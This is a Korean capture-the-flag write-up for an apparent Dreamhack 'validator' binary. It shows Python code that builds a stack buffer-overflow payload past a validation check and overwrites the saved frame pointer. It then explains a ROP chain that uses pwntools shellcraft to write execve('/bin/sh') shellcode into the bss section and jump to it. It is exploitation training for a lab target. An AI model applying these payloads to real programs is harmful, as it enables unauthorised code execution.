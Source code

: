 인덱스를 꼭 **128**까지 입력해줘야 하는 것 기억하고, 그렇게 되면 **SFP**의 첫번째 바이트(LSB)에 값이 하나 더 들어가기 때문에,

SFP를 덮을 때는 **8bytes가 아닌 7bytes만** 덮어야 한다.

Payload를 구성하는 코드는 아래와 같다.

```
# [1] validate

payload = b"DREAMHACK!"  # index : 0 ~ 9
payload += b'A'          # index : 10

# index : 11 ~ 128 (s[128]에도 대입해줘야 s[127]의 비교에서 exit가 발생하지 않음)
for i in range(127, 9, -1):   # 127 ~ 10 까지 -1씩 감소시키며 (char 범위는 -128 ~ 127 이므로, 범위를 127부터 해줘야함)
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨

payload += b'a' * 0x7         # SFP : 앞에서 SFP의 첫번째 바이트까지 넘어왔기 때문에 7바이트만 덮어야함
```

SFP를 생각하기 까다롭기 때문에, 다음에 할 때는 그냥 인덱스 10부터 한번에 SFP까지 덮는 아래의 코드를 사용해도 된다.

```
payload = b"DREAMHACK!"  # index : 0 ~ 9

# index : 10 ~ 128 + SFP -> 총 126 바이트
for i in range(126, 0, -1):   # 127 ~ 1 까지 -1씩 감소시키며
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨
```

그럼 **ROP**, **GOT Overwrite**, **Shellcode execute** 등 여러 방법으로 공격을 수행해보자.

## 1. `bss` 영역에 `shellcraft`를 활용한 쉘코드 Overwrite (`5.4.0` 이전의 버전에서만 가능)

**RAO** 공격을 통해 ROP 체인을 통해 `bss`의 주소에 `shellcraft`를 통해 찾은 **Shellcode**를 주입하여 임의의 쉘코드를 실행하는 방법으로 공격을 할 수 있다.

앞에서도 계속 설명했지만 `5.4.0` 이전의 커널 버전에서만, 이번 바이너리에서처럼 **NX Bit**가 비활성화된 경우 읽기 권한이 존재하는 `bss` 영역에 실행 권한이 존재하여 **Shellcode execute**가 가능하다.

ROP 가젯은 `pwntools`의 `find_gadget()` 함수를 쓰거나, 쉘에서 아래의 명령어로 구할 수 있다.

```
ROPgadget --binary validator_dist | grep 'pop rdi'
```

`bss` 영역의 주소는 **PIE**가 적용되어 있지 않기 때문에 `elf.bss()`를 통해 구할 수 있고, `shellcode`는 `shellcraft.execve("/bin/sh", 0, 0)` 또는 `shellcraft.sh()`을 사용하면 된다.

그리고 `shellcraft`는 쉘 코드에 해당하는 어셈블리 코드를 문자열로 리턴하기 때문에, `asm` 함수를 통해 해당 어셈블리 코드를 머신 코드로 변환한 바이트 문자열로 변환해서 전달해야 한다.

<img width="1207" alt="image" src="https://github.com/user-attachments/assets/84fd2394-beb5-4a27-a7b1-9cf7f23efe11">

그럼 이제, **BOF** 취약점을 통해 가능한 **RAO** 공격과 **ROP 가젯**을 통해, 아래의 `read` 함수를 실행하도록 하고, `bss` 영역에 `shellcode`를 대입해준 후 `bss` 영역으로 이동하면 쉘코드가 실행될 것이다.
